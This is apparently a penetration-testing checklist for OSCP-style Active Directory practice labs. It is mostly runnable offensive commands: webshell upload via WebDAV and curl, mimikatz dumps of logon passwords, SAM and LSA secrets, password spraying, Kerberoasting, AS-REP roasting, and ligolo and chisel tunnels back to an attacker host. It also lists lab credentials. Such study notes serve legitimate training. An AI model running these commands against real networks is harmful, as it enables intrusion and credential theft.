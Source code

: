 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# AD Set

{% hint style="info" %}
Based on:&#x20;

* PG Practice: Access, Hokkaido, Hutch, Nagoya, Resourced, Vault
* PEN-200: OSCP A, OSCP B, OSCP C
{% endhint %}

{% hint style="warning" %}
The AD set is an assumed breached scenario, i.e. starts on [Creds](ad-set.md#creds). However, the techniques used on the PG Play boxes were included for completeness and can be useful for the Windows standalone machine.
{% endhint %}

## No Creds

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
sudo nmap-scan <target-IP>
```

</details>

<details>

<summary>Domain Enumeration</summary>

* [ ] LDAP Null Bind ([ldapsearch](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/ldapsearch))

{% code overflow="wrap" %}
```bash
# Enumerate objects
ldapsearch -v -x -b "DC=DC01,DC=offsec" -H "ldap://192.168.120.108" "(objectclass=*)"

# Enumerate users' description field
uv run nxc ldap DC01 -u '' -p '' -M get-desc-users
```
{% endcode %}

* [ ] User Enumeration ([kerbrute](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/kerbrute))

{% code overflow="wrap" %}
```bash
kerbrute userenum -d hokkaido-aerospace.com --dc hokka /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
{% endcode %}

* [ ] SMB Enumeration
  * [ ] [enum4linux-ng](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#enumeration)
  * [ ] Null, Guest, Anonymous sessions
  * [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))
* [ ] Password Spray with `<user>:<user>`

</details>

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​
​# Dirbust with a file list
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

## MS01

### Creds

<details>

<summary>User Context</summary>

* [ ] [Privileges](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/privileges) (if GUI access check for [token elevation](../../)) and [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/groups)

```powershell
# User's privileges
whoami /priv

# User's groups
whoami /groups
```

* [ ] [PS History](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#files)

{% code overflow="wrap" %}
```powershell
# History files of all host's users (assuming default path)
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [WinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#windows)
* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

</details>

<details>

<summary>Remote Access ✅</summary>

Check for WinRM, RDP, and SSH access:

{% code overflow="wrap" %}
```bash
for service in winrm rdp ssh;do uv run nxc "$service" domain_hosts -u celia.almeda -p 7k8XHk3dMtmpnC7;echo;done | grep +
```
{% endcode %}

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary>Post-Exploitation (Cached Creds) ✅</summary>

* [x] Dump cached credentials

{% code overflow="wrap" %}
```powershell
# Upload binary from the WinRM session
*Evil-WinRM* PS C:\Users\Administrator> upload mimikatz.exe

# Dump active sessions' creds
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump the SAM registry hive
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# Dump the LSA secrets
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```
{% endcode %}

* [x] Password Spray

{% code overflow="wrap" %}
```bash
$ for file in domain_*;do cat "$file";echo;done

$ uv run nxc smb ms01 -u domain_users -p domain_passwords --continue-on-success | grep +
​
$ uv run nxc smb ms01 -u domain_users -H domain_hashes --continue-on-success | grep +
```
{% endcode %}

</details>

<details>

<summary>Pivot (Route to the domain) ✅</summary>

```bash
# Launch the ligolo server
$ sudo ligolo-proxy -selfcert -laddr 192.168.45.216:443
```

{% code overflow="wrap" %}
```powershell
# Upload ligolo-agent via WinRM
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> upload agent.exe

# Connect to the server
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> .\agent.exe -connect 192.168.45.216:443 -ignore-cert
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Configure the routing
ligolo-ng » INFO[0052] Agent joined.   id=0050569e00f6 name="OSCP\\eric.wallows@MS01" remote="192.168.103.141:49318"
ligolo-ng » session
? Specify a session : 1 - OSCP\eric.wallows@MS01 - 192.168.103.141:49318 - 0050569e00f6
[Agent : OSCP\eric.wallows@MS01] » autoroute
? Select routes to add: 10.10.63.141/24
? Create a new interface or use an existing one? Create a new interface
INFO[0105] Generating a random interface name...
INFO[0105] Using interface name savinglester
INFO[0105] Creating routes for savinglester...
? Start the tunnel? Yes
INFO[0106] Starting tunnel to OSCP\eric.wallows@MS01 (0050569e00f6)
```
{% endcode %}

</details>

<details>

<summary>AD Attacks (Domain Data) ✅</summary>

* [x] Domain Data (userlist, bloodhound)

{% code overflow="wrap" %}
```bash
# Create a domain user's list
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# Collect domain data
uv run nxc ldap DC01.oscp.exam -u celia.almeda -p 7k8XHk3dMtmpnC7 --bloodhound -c All --dns-server 10.10.63.140
```
{% endcode %}

* [x] Password Spray&#x20;
  * [ ] `<user>:<user>`

{% code overflow="wrap" %}
```bash
uv run nxc smb domain_hosts -u domain_users -H domain_hashes --continue-on-success | grep +
​
uv run nxc smb domain_hosts -u domain_users -p domain_passwords --continue-on-success | grep +
```
{% endcode %}

* [x] [Kerberoast](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/kerberoasting)

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -request -dc-ip DC01 oscp.exam/celia.almeda:7k8XHk3dMtmpnC7
```
{% endcode %}

* [x] [AS-REPRoast](../../tl-dr/active-directory/attacks/as-reproasting.md)

{% code overflow="wrap" %}
```bash
impacket-GetNPUsers oscp.exam/ -dc-ip DC01 -no-pass -usersfile domain_users
```
{% endcode %}

</details>

## MS02

<details>

<summary>User Context</summary>

* [ ] [Privileges](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/privileges) (if GUI access check for [token elevation](../../)) and [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/groups)

```powershell
# User's privileges
whoami /priv

# User's groups
whoami /groups
```

* [ ] [PS History](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#files)

{% code overflow="wrap" %}
```powershell
# History files of all host's users (assuming default path)
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [WinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#windows)

- [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

```bash
# Start the chisel server on the attacking host
./chisel server -p 8000 --reverse
```

```powershell
# Connect from the target host
.\chisel.exe client 192.168.45.157:8000 R:6033:127.0.0.1:3306
```

```bash
# Enumerate the forwarded port
mysql -h 127.0.0.1 -P 6033 -u root
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/1433-mssql">MSSQL</a></summary>

* [ ] Enumerate tables
* [ ] Links
* [ ] Users
* [ ] xp\_cmdshell
  * [ ] Host enumeration

</details>

<details>

<summary>AD Attacks</summary>

* [ ] If SPNs (e.g. MSSQL) try [Silver ticket](https://x7331.gitbook.io/boxes/tl-dr/active-directory/persistence/silver-ticket)

</details>

<details>

<summary>Post-Exploitation (Cached Creds)</summary>

* [x] Dump cached credentials

{% code overflow="wrap" %}
```powershell
# Upload binary from the WinRM session
*Evil-WinRM* PS C:\Users\Administrator> upload mimikatz.exe

# Dump active sessions' creds
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump the SAM registry hive
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# Dump the LSA secrets
*Evil-WinRM* PS C:\Users\Administrator>.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```
{% endcode %}

* [x] Password Spray

{% code overflow="wrap" %}
```bash
$ for file in domain_*;do cat "$file";echo;done

$ uv run nxc smb ms01 -u domain_users -p domain_passwords --continue-on-success | grep +
​
$ uv run nxc smb ms01 -u domain_users -H domain_hashes --continue-on-success | grep +
```
{% endcode %}

</details>
